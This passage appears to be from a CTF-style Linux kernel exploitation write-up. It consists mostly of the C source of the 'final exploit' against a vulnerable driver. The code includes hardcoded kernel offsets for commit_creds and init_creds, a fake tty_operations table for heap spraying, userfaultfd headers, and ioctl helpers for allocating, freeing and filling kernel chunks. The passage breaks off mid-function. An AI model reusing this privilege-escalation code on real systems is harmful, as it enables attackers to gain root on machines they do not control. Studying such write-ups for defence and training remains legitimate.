 Now, the final exploit looks like this:-

```C
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/wait.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include<linux/userfaultfd.h>
#include <sys/timerfd.h>
#include <pthread.h>
#include <poll.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>

unsigned long kbase, kheap;
unsigned long ptm_unix98_ops = 0x10af6a0;
unsigned long pop_rdi, kpti;
unsigned long init_creds = 0x165fa00;
unsigned long commit_creds = 0xc0540;

void *fake_tty_operations[30];

int spray_fd[0x100];

struct message {
  unsigned int index;
  long size;
  char *buf;
};


void kmalloc(int fd, unsigned long idx, unsigned long size)
{
  struct message msg;
  msg.size = size;
  msg.index = idx;
  printf("[*] Allocating Chunk at: %ld of size: %ld\n", idx, size);
  if (ioctl(fd, 0x1000, &msg) == -1)
  {
   puts("Error!!");
   exit(1);
  }
}

void kfree(int fd, unsigned long idx)
{
 struct message msg;
 msg.index = idx;
 printf("[*] Free'ng index: %ld\n", idx);
 if (ioctl(fd, 0x1001, &msg) == -1)
 {
  puts("Error!!");
  exit(1);
 }
}

void fill(int fd, unsigned long idx, unsigned int size, char *ptr)
{
 struct message msg;
 msg.buf = ptr;
```